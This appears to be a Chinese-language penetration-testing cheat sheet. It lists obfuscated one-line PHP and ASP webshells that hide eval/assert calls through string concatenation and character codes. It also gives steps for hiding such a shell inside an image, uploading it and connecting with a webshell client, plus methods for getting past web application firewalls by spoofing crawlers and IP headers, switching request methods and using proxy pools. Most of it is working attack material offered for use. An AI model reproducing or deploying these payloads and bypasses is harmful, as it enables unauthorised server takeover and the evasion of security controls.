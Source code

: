 * **内容编码**
  * （1）使用字符串拼接关键词：
    ```php
    <?php $_REQUEST['a']($_REQUEST['b']); ?>
    <?php ($_=@$_GET[2]).@$_($_POST[sz])?>
    <?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?>
    <?php $k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);?>
    <?php $a = "a"."s"."s"."e"."r"."t";  $a($_POST["sz"]); ?>
    ```
    ```asp
    <%eval""&("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0"&"-"&"2"&"-"&"5"&")"&")")%>
    <%a=request("gold")%><%eval a%>
    ```
  * （2）使用字符编码：
    ```php
    <%Eval(Request(chr(112)))%>
    <%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("xindong"))%>
    ```
  
* **一句话图片木马**
  * （1）寻找图片使用c32或者hex打开的软件打开图片
  * （2）将一句话木马插入到图片中
  * （3）实验将图片上传到服务器，并且更改后缀为服务器对应的脚本
  * （4）使用菜刀或者webshell连接器进行连接，如果不成功则是图片中的某些字符干扰了一句话木马，跟换图片再试
  * （5）上传图片格式配置解析漏洞拿shell
  * （6）文件包含拿shell


### 【waf防护】

* **防护原理**
  * user-agent进行拦截，可以使用爬虫的网址进行绕过，例如百度爬虫（一般使用白名单）
  * http检测可以使用post或者cookie值进行绕过（有些之拦截get提交方式）
  * http头获取ip可以修改remote-ip或者client-ip
  * 文件上传后缀防护
  * 敏感函数防护
  * 危险组件防护
  * 禁止执行程序
  * 一句话拦截
  * 内容防护中，会对访问目标进行过滤，有时是使用账号密码，有时是ip限制
  * cc攻击防护，限制攻击次数可绕过，或者变换ip


* **waf绕过方法**
  * （1）目录扫描防护绕过
    问题：扫描不到任何信息（IP封锁，一般为硬件防火墙，连接重置），扫出来一堆东西（含有waf）
    * 解决方法：
      * 降低扫描速度
      * 爬行工具爬行目录
      * 修改user-agent
      * 尝试代理ip池
      * 可以尝试白名单服务器扫描（使用加了白名单ip）例如：阿里云可以使用阿里云服务器
    
